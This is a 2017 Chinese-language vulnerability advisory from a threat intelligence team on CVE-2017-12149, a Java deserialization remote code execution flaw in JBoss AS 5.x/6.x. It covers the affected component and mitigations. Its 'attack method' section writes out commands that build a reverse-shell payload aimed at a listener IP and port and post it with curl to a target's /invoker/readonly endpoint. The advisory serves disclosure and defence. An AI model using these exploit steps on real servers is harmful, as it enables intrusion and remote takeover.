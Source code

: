# JBOSSAS 5.x/6.x 反序列化命令执行漏洞（CVE-2017-12149）通告

[奇安信威胁情报中心](javascript:void(0);) *2017年11月22日 19:25*

**文档信息**



| 编号     | 360TI-SV-2017-0012                     |
| -------- | -------------------------------------- |
| 关键字   | CVE-2017-12149JBossAS                  |
| 发布日期 | 2017年11月22日                         |
| 更新日期 | 2017年11月22日                         |
| TLP      | WHITE                                  |
| 分析团队 | 360威胁情报中心、360安全监测与响应中心 |



**通告背景**

2017年8月30日，Redhat公司发布了一个JbossAS 5.x系统的远程代码执行严重漏洞通告，相应的漏洞编号为CVE-2017-12149。近期有安全研究者发现JbossAS 6.x也受该漏洞影响，攻击者可能利用此漏洞无需用户验证在系统上执行任意命令。



360威胁情报中心分析确认该漏洞可用，漏洞相关的技术细节和验证程序已经公开，互联网上受影响的主机数目较多。此漏洞极有可能被利用来执行大规模的攻击，构成现实的威胁， 360威胁情报中心发现已有存在漏洞的用户主机被攻击入侵并安装了挖矿程序（Miner）。因此，我们发布此通告提醒企业和组织采取应对措施以避免受此漏洞影响。



**漏洞概要**



| **漏洞名称**                   | JBOSSAS5.x/6.x反序列化命令执行漏洞 |
| ------------------------------ | ---------------------------------- |
| **威胁类型**                   | 远程命令执行                       |
| **威胁等级**                   | 高                                 |
| **漏洞ID**                     | CVE-2017-12149                     |
| **受影响系统及应用版本**       | Jboss AS 5.xJbossAS 6.x            |
| **不受影响影响系统及应用版本** |                                    |



**漏洞描述**

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。



**影响面评估**

360威胁情报中心已经确认公开的漏洞利用代码有效，且该漏洞影响5.x和6.x版本的JbossAS。目前评估潜在受影响主机数量超过5000台，整体影响面较大，综合分析威胁等级为高。



**处置建议**

**修复方法**

1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。

2. 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制：

   <url-pattern>/*</url-pattern>



**技术分析**

该漏洞存在于http invoker 组件的 ReadOnlyAccessFilter 的 doFilter 中。如下图所示：

![图片](http://mmbiz.qpic.cn/mmbiz_png/2AqAgxkehicicC1tcg7a9xOJcR8W7PVc7IiaEAMLUwIibDfFTZwYEtkjIFwsbqD0cpAMf5MQW9ibLhfuFQHvSmG4TKQ/0/png?tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)



方法中的代码在没有进行任何安全检查的情况下，将来自客户端的数据流（request.getInputStream()）进行了反序列化操作（红色箭头所示），从而导致了反序列化漏洞。



**攻击方式**

攻击者只需要构造带有需要执行Payload的ser文件，然后使用curl将二进制文件提交至目标服务器的invoker/readonly页面中，即可执行Payload中指定的命令，获取对电脑的控制权。攻击示例代码如下：



**//编译预置payload的java文件**

javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java



**//反弹shell的IP和端口**

java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 1.1.1.1:6666



**//使用curl向/invoker/readonly提交payload**

curl http://192.268.197.25:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser



**参考资料**

https://access.redhat.com/security/cve/cve-2017-12149